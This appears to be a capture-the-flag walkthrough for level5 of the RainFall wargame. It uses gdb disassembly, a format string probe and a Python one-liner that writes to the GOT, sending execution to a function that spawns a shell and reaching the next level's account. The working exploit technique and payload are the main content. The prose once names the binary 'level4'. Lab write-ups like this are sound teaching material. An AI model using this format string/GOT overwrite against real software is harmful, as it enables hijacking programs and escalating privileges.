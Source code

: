 # Walkthrough

After examining the contents of the home directory, I came across a binary file called "level4". Upon executing this binary, I noticed that it takes user input and outputs it. To further analyze the binary, i used the `objdump` command to extract all functions of this program. we can see that the program have the `o` and `n` functions.

```sh
level5@RainFall:~$ objdump -t ./level5  | grep .text
080483f0 l    d  .text 00000000              .text
08048420 l     F .text 00000000              __do_global_dtors_aux
08048480 l     F .text 00000000              frame_dummy
080485a0 l     F .text 00000000              __do_global_ctors_aux
08048590 g     F .text 00000002              __libc_csu_fini
08048592 g     F .text 00000000              .hidden __i686.get_pc_thunk.bx
080484c2 g     F .text 00000042              n
08048520 g     F .text 00000061              __libc_csu_init
080483f0 g     F .text 00000000              _start
080484a4 g     F .text 0000001e              o
08048504 g     F .text 0000000d              main

```

 So i used the GDB debugger  to extract more details. In the "main" function of the binary, there is a call to the "n" function.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>: leave  
   0x08048510 <+12>: ret   
```

The `n` function reads user input using `fgets` and saves it in a buffer. It then uses `printf` to display the contents of the buffer, and exits without calling the "o" function.

```s
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>: push   ebp
   0x080484c3 <+1>: mov    ebp,esp
   0x080484c5 <+3>: sub    esp,0x218
   0x080484cb <+9>: mov    eax,ds:0x8049848
   0x080484d0 <+14>: mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>: mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>: lea    eax,[ebp-0x208]
   0x080484e2 <+32>: mov    DWORD PTR [esp],eax
   0x080484e5 <+35>: call   0x80483a0 <fgets@plt>
   0x080484ea <+40>: lea    eax,[ebp-0x208]
   0x080484f0 <+46>: mov    DWORD PTR [esp],eax
   0x080484f3 <+49>: call   0x8048380 <printf@plt>
   0x080484f8 <+54>: mov    DWORD PTR [esp],0x1
   0x080484ff <+61>: call   0x80483d0 <exit@plt>

```

Upon disassembling the "o" function, it appears to start a new shell process using the "system" function and then exits. To execute the "o" function, we need to find a way to call it within the current process.

```s
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>: push   ebp
   0x080484a5 <+1>: mov    ebp,esp
   0x080484a7 <+3>: sub    esp,0x18
   0x080484aa <+6>: mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>: call   0x80483b0 <system@plt>
   0x080484b6 <+18>: mov    DWORD PTR [esp],0x1
   0x080484bd <+25>: call   0x8048390 <_exit@plt>
```

To redirect the program's execution to another function, we can use a technique called `function hooking`. This involves overwriting the address of the original function in the Global Offset Table (GOT) with the address of the new function that we want to call. In this case, we can overwrite the address of the exit function in the GOT with the address of the o function. This way, when the n function calls the exit function, it will actually jump to the address of the o function instead. This allows us to execute the o function and perform any actions we want before the program exits.

In the following example, we can observe the address that requires modification to match the address of the `o` function.

```s
(gdb) r
Starting program: /home/user/level5/level5 
AAAA
AAAA
=> 0x80484ff <n+61>: call   0x80483d0 <exit@plt>

Breakpoint 1, 0x080484ff in n ()
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>: jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>: push   0x28
   0x080483db <+11>: jmp    0x8048370
End of assembler dump.
(gdb) x/wx 0x8049838
0x8049838 <exit@got.plt>: 0x080483d6
```

Similar to the previous level, we will exploit the format string vulnerability using a Python script to alter the value of the address `0x8049838` to `0x080484a4`.


First, we need to determine the locations of the address using the %x specifier specifier.

```sh
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

After computing the required padding to modify the value to match the address of the o function (0x080484a4), we will replace the value of the address 0x8049838 using n specifier. This will involve substituting the fourth `x` specifier with an `n` specifier and appending the calculated padding to the last `x` specifier.

```sh
level5@RainFall:~$ python2 -c 'print("\x08\x04\x98\x38"[::-1] + " " + "%x " * 2 + "%134513809x " + "%n")' > /tmp/flag

----------------------------------------------------------------------------------------------

(gdb) r < /tmp/flag
=> 0x80484ff <n+61>:	call   0x80483d0 <exit@plt>

Breakpoint 1, 0x080484ff in n ()
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x/wx 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4 // address of "o" function
```

By doing so, we can now execute the binary file using the updated buffer that was read from the output redirected by the script mentioned earlier:
```sh
level5@RainFall:~$ cat /tmp/flag - | ./level5
8 200 b7fd1ac0 (after 134513801 space)b7ff37d0 
whoami
level6
cd ..
cd level6
ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
```